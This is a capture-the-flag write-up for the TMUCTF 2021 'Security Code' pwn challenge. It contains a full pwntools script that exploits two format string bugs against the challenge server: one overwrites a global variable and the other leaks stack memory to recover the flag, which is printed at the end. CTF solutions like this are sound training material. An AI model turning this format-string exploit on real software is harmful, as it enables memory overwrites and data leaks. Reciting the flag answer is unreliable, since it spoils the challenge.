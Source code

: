 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. Both of them are `format string` vulnerabilities.  
In the first step, you have to overwrite the value of the `security_code` global variable. In the second step, you have to read the stack to leak the flag. 
Here is the full script (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Security%20Code/Writeup%20Files/solve.py)):   
```python
import pwn
import time

i = 6
a = []
while i != 30:
    r = pwn.remote("185.235.41.205", 7040)
    r.recvlines(11)
    r.sendline("A".encode())
    r.recvline()
    w = {0x0804c03c: 0xabadcafe}
    p = pwn.fmtstr_payload(15, w)
    r.sendline(p)
    r.recvline()
    r.recvline()
    p = "%" + str(i) + "$p"
    r.sendline(p.encode())
    admin_pass = r.recvlines(3)[2].decode().split(" ")[-1]
    a.append(admin_pass)
    try:
        print(pwn.p32(int(admin_pass, 16)))
    except:
        pass
    i += 1

flag = []
for k in a[1:21]:
    try:
        flag.append(pwn.p32(int(k, 16)).decode())
    except Exception as e:
        pass

print("".join(flag))
```   
The flag:   
```
TMUCTF{50_y0u_kn0w_50m37h1n6_4b0u7_f0rm47_57r1n6_0xf7e11340}
```  

